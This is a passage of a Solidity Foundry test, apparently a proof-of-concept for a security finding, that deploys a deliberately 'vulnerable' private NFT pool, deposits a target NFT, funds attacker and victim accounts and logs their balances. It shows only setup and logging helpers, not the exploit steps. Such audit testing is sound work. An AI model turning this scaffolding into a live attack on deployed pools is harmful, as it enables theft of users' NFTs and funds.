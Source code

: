 ```solidity
            baseTokenAmount: baseTokenAmount,
            isPublicPool: false
        });
    }

    /**
     * @notice Deploy and initialize an instance of the vulnerable private pool implementation.
     */
    function _deployPrivatePool() internal {
        // Deploy pool implementation.
        privatePool = new PrivatePool(
            address(factory),
            address(royaltyRegistry),
            address(stolenNftOracle)
        );

        // Initialize pool instance.
        privatePool.initialize(
            address(0),
            address(nft),
            VIRTUAL_BASE_TOKEN_RESERVES,
            VIRTUAL_NFT_RESERVES,
            0,
            0,
            MERKLE_ROOT,
            false,
            true
        );
    }

    /**
     * @notice Transfer the NFT to the pool to simulate the private pool owner has deposited it.
     * @param _targetTokenId The specific NFT that will be used by the attacker to perform the exploit.
     */
    function _depositNft(uint256 _targetTokenId) internal {
        address owner = nft.ownerOf(tokenId);
        vm.prank(owner);
        nft.transferFrom(owner, address(privatePool), _targetTokenId);
        assertEq(nft.ownerOf(_targetTokenId), address(privatePool));
    }

    /**
     * @notice Funds ETH to the accounts that will need native tokens for this test case.
     */
    function _fundEth() internal {
        vm.deal(address(privatePool), VIRTUAL_BASE_TOKEN_RESERVES);
        vm.deal(attacker, 100e18);
        vm.deal(victim, 100e18);
    }

    /**
     * @notice Logs the current state to show the exploit status in the terminal.
     */
    function _logState(string memory state) internal view {
        console.log("");
        console.log("============================================");
        console.log(state);
        console.log("============================================");
        console.log(
            string.concat(
                " | Attacker balance:            ",
                string.concat(
```